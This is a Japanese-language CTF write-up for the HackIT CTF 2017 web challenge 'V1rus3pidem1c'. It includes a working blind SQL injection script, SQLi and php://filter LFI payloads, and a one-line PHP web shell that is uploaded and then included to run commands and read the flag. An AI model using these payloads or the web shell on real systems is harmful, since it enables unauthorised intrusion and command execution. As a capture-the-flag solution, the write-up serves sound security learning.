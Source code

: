 ```yaml
---
layout: post
title: HackIT CTF 2017 の write-up
categories: [ctf]
date: 2017-09-08 02:07:01 +0900
---
```


チーム Harekaze で [HackIT CTF 2017](https://ctf.com.ua/) に参加しました。最終的にチームで 750 点を獲得し、順位は得点 338 チーム中 39 位でした。うち、私は 1 問を解いて 100 点を入れました。

以下、解いた問題の write-up です。

## [Web 100] V1rus3pidem1c

与えられた URL にアクセスすると、国を選択できるフォームが表示されました。

試しに `Netherlands` を選択して送信すると、ファイルをアップロードできるフォームが表示されました。

このときのパスは `/index.php?country=Netherlands` となっていました。`Netherlands` を `Netherlands'` に変えると何も表示されず、`Netherlands' '` に変えるとファイルのアップロードができるフォームが表示されました。また、`' or 1;%23` に変えると `Germany` を選択したときと同じフォームが表示されました。SQLi ができそうです。

Blind SQLi を行うスクリプトを書きましょう。

```python
import requests
import urllib

def query(s):
  r = requests.post(url + urllib.quote(s))
  return r.content

def check(r):
  return 'Select virus for Germany' in r

if __name__ == '__main__':
  url = 'http://tasks.ctf.com.ua:13372/index.php?country='

  res = ''
  i = 1
  while True:
    c = 0
    for b in range(7):
      r = check(query("' or (select ascii(substr({0}, {1}, 1)) & {2});#".format('version()', i, 1 << b)))
      if r: c |= 1 << b
    res += chr(c)
    i += 1
    print repr(res)
```

実行すると `5.5.38-0ubuntu0.14.04.1` と出力され、MySQL が使われていることが分かりました。

テーブルの構造を調べていきましょう。`version()` を `(select group_concat(table_name) from information_schema.tables where table_schema=database())` に変えると `countries` が出力されました。

`countries` がどのようなカラムを持つか調べるため `(select group_concat(column_name) from information_schema.columns where table_name="countries")` に変えると `countryID,countryName,scriptPath` が出力されました。

`countryID` は国の ID、`countryName` は国名と推測できますが、`scriptPath` とはなんでしょう。`(select group_concat(scriptPath) from countries)` に変えると `country/ge.php,...` が出力されました。`/country/ne.php` にアクセスすると `Netherlands` を選択した際に表示されたフォームが出力されました。`select scriptPath from countries where countryName='(ユーザ入力)'` とした結果を `include` していそうです。

LFI ができないか試してみましょう。`/index.php?country=' union select 'php://filter/convert.base64-encode/resource=country/ne.php';%23` にアクセスすると `country/ne.php` のソースが手に入れられました。

```php
<form action="" method="post" enctype="multipart/form-data">
    <input type="file" name="fileToUpload" id="file" class="inputfile inputfile-4" data-multiple-caption="{count} files selected" multiple />
	<label for="file">
		<figure>
			<img src="static/upload1.png" width="100px;">
		</figure> 
			<span>Select virus for Ne&hellip;</span>
	</label>
	<br>
    <input type="submit" value="Upload Image" name="submit"  class="button">
</form>
		
<?php

	$target_dir = "uploads/";
	$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
	move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
	
	/*echo $_FILES["fileToUpload"]["tmp_name"] ."\n";
	var_dump($_FILES["fileToUpload"]);
	var_dump(file_exists($_FILES["fileToUpload"]["tmp_name"]));
	echo file_exists($target_file);*/
?>
```

アップロードしたファイルは `uploads/` 下にあるようです。

`shelldayo.php` という名前で、以下のような内容のファイルをアップロードしましょう。

```php
<?php
passthru($_GET['s']);
```

`/index.php?country=' union select 'uploads/shelldayo.php';%23&s=ls` にアクセスするとファイルの一覧が得られました。

```
country
index.php
iulersiueruigfuihseruhgi.php
static
uploads
```

`/index.php?country=' union select 'uploads/shelldayo.php';%23&s=cat iulersiueruigfuihseruhgi.php` にアクセスするとフラグが得られました。

```
<?php

$flag="h4ck1t{$QL&LFI=FR13ND$}";

?>
```

```
h4ck1t{$QL&LFI=FR13ND$}
```